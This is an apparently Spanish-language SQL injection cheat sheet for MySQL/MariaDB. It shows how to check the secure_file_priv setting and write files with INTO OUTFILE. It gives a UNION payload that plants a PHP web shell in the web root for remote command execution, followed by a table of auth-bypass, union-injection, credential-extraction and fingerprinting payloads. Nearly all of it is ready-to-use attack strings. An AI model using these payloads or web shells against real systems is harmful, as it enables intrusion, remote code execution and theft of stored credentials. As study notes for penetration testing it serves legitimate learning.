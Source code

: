 La variable mysql secure_file_priv debe estar desactivada.

Tener permisos de escritura el la localización que queremos escribir.

  

secure_file_priv

  

De esta forma comprobamos si está desactivada, aunque normalmente de forma predeterminada está activada. Esto solo sirve en mysql y MariaDB.

```sql

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

```

  

Para escribir archivos podemos hacerlo de esta forma:

  

```sql

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

```

  

#### Escribir una web-shell

  

```sql

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

```

Con este payload podemos entrar en el archivo shell.php y con el valor 0 podemos introducir comandos y conseguir un RCE.

http://server_ip:80/shel.php?0=id

|   |   |
|---|---|
|Payload|Description|
|Auth Bypass||
|admin' or '1'='1|Basic Auth Bypass|
|admin')-- -|Basic Auth Bypass With comments|
|[Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)||
|Union Injection||
|' order by 1-- -|Detect number of columns using order by|
|cn' UNION select 1,2,3-- -|Detect number of columns using Union injection|
|cn' UNION select 1,@@version,3,4-- -|Basic Union injection|
|UNION select username, 2, 3, 4 from passwords-- -|Union injection for 4 columns|
|DB Enumeration||
|SELECT @@version|Fingerprint MySQL with query output|
|SELECT SLEEP(5)|Fingerprint MySQL with no output|